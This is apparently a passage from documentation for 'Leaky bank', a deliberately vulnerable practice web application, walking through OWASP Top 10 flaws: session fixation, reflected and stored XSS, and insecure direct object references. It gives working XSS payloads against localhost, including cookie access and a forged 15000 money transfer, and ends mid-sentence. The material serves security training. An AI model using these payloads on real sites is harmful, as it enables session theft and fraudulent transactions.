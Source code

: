 
## A2 - Broken Authentication and Session Management

Reference: https://www.owasp.org/index.php/Top_10_2013-A2-Broken_Authentication_and_Session_Management

- Sessions does not expire, 
- Session is not recreated after login,
- It is possible to pass session Id in url: http://localhost:8080/login;jsessionid={sessionID}

So, *Leaky bank* is vulnerable to session fixation attack : https://www.owasp.org/index.php/Session_fixation.


## A3 - Cross-Site Scripting (XSS)

Reference: https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS)

### Reflected XSS
All pages supports a message parameters in the url that is used to display a confirmation messages.

This parameter is injected in JavaScript :

	var message = '${request.message}';

Example:

	http://localhost:8080/login?message=';alert(document.cookie);//
	
### Stored XSS
There is no sanitization of "description" field in the money transfer features, and transactions description are displayed without escaping in account detail page.

Exemple: 

	XSS !!! <script>alert(document.cookie)</script>
	
### Examples

Replaces all the links in the page with http://fr.wikipedia.org/wiki/Cross-site_scripting :

	http://localhost:8080/accounts?message=%27;window.setTimeout%28function%28%29{$(%27a%27).attr(%27href%27,%20%27http://fr.wikipedia.org/wiki/Cross-site_scripting%27);},500%29;var%20f=%27b


Submit a money transfer:

	http://localhost:8080/accounts?message=';$.get("/transfers/new?debitAccount=100124%26creditAccount=100223%26amount=15000%26description=XSS");//


## A4 - Insecure Direct Object References

Reference: https://www.owasp.org/index.php/Top_10_2013-A4-Insecure_Direct_Object_References

Accounts number is directly passed in the url of account details pages : http://localhost:8080/accounts/100123, and there is no access control on the accounts. So it is possible to bruteforce and reads transactions of all the available accounts :
